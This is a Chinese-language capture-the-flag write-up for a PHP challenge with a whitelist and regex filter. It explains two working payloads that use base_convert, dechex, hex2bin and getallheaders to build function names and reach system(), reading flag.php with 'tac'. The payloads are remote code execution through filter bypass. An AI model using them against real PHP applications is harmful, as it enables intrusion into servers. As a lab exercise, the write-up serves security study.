



# 知识点
[hex2bin](https://www.php.net/manual/zh/function.hex2bin)<br />[getallheaders](https://www.php.net/manual/zh/function.getallheaders)
### 动态函数调用
[https://www.php.cn/php-ask-457363.html](https://www.php.cn/php-ask-457363.html)
# 思路
### 方法一
37907361743十进制转换为二进制刚好为hex2bin<br />dechex(1598506324) 等于 _GET的十六进制表示，先为二进制表示，防止出现字母<br />当$pi = _GET<br />$$pi 相当于 $_GET<br />数组索引除能使用 [ ] 外还可以用 { }
```bash
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{acos}($$pi{asin});&acos=system&asin=tac flag.php
```

### 方法二
来自[南神博客](https://www.wlhhlc.top/posts/14827/)<br />分析一波源码，get传参c，并且长度不能超过80，设置了黑名单和白名单和正则过滤。按照提示我们去找找一些数学函数进行使用，这么多白名单也注定了有多种payload，这里我使用base_convert()和getallheaders配合使用<br />![RJK)FW%W]I}7HR]PECDK0HP.png](./images/20231017_2350354408.png)<br /><br />注意，因为正则会匹配字母，所以我们需要通过base_convert()进行一个转换
```bash
echo base_convert('system',36,10);
//得到1751504350，从36进制转换到10进制，36进制包含10个数字和26个字母

echo base_convert('getallheaders',30,10);
//得到8768397090111664438，这里不使用36进制是因为精度会丢失，尝试到30的时候成功
```
所以构造payload如下
```bash
?c=$pi=base_convert,$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1}) 
```
这里用一个变量来缩小payload长度，但注意变量名要取白名单中的名字进行命名，否则会被ban<br /><br />成功获得flag
